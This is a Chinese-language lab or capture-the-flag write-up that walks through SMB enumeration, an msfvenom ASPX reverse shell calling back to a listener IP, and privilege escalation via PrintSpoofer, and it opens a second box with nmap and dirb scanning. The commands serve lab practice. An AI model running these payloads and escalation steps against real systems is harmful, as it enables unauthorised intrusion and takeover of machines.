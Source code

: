 在网上找到的脚本参数 来枚举出smb的文件

## 账户密码
在里面找到一个password.txt 

get 文件名下载到本地

![image.png](https://s2.loli.net/2025/04/20/hXO8FNGjHVafse2.png)

![image.png](https://s2.loli.net/2025/04/20/PUSc9nO71GvB8Wf.png)

## 尝试远程连接
无果 发现还是反弹shell

## msf反弹shell
编写的shell
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.40.203 LPORT=8888 -f aspx -o shell3.aspx

有个要注意的就是 浏览器访问需要加个49663端口
```

![image.png](https://s2.loli.net/2025/04/26/QJ6raP13bfm7gzR.png)

查看一下可用权限

```
whoami /priv
```

![image.png](https://s2.loli.net/2025/04/26/obGv72iT6SOJRAV.png)

## 提权
滥用 SeImpersonatePrivilege 使用PrintSpoofer64.exe提权
```
dir /s /b c:\ | find "PrintSpoofer64.exe"
cd c:\inetpub\wwwroot\nt4wrksv\
PrintSpoofer64.exe -i -c cmd

```

成功提权
# devguru
## nmap 加dirb文件爆破
![image.png](https://s2.loli.net/2025/04/28/bBu8MXowxeAkmWl.png)

发现有个.git文件 就可以试试git源码泄露
